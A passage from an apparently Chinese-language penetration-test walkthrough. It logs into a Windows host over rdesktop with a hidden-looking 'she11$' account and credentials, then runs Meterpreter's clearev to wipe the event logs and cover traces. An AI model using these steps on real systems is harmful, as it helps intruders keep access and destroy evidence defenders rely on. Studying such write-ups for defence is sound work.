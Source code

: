 ```shell
命令成功完成。
```

完成后，直接登录到服务器。

```shell
$ rdesktop 192.168.3.72 -u she11$ -p D@i123 -g 1024x960
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/d027603c-fca0-42ce-b37d-6d9713ad7526/rdesktop.jpg?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=08787fef535a128aa31caf63761b6e81ee2dc94ab7cd81bfc7ba6aa13e7e2c41&X-Amz-SignedHeaders=host&x-id=GetObject)

此过程中难免会留下日志信息痕迹，使用此命令来清理日志。

```shell
meterpreter > clearev
[*] Wiping 16000 records from Application...
[*] Wiping 20128 records from System...
[*] Wiping 18688 records from Security...
```

介于这台主机在一个单独的内网，后渗透的意义不大。所以就此完了。。。
